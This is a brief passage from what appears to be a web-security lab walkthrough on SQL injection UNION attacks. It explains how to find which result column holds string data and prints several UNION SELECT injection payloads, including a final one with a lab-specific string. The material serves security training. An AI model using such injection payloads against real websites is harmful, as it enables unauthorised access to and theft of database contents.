 First find the number of columns as we did in Lab 1, then do the following.

Generally, the interesting data that you want to retrieve will be in string form. Having already determined the number of required columns, you can probe each column to test whether it can hold string data by replacing one of the UNION SELECT payloads with a string value. In previous lab you would submit:

        ' UNION SELECT 'a',NULL,NULL--
        ' UNION SELECT NULL,'a',NULL--
        ' UNION SELECT NULL,NULL,'a'--
        
Payload
```sql
' UNION SELECT NULL,'Tz0F22',NULL--
```
        
        
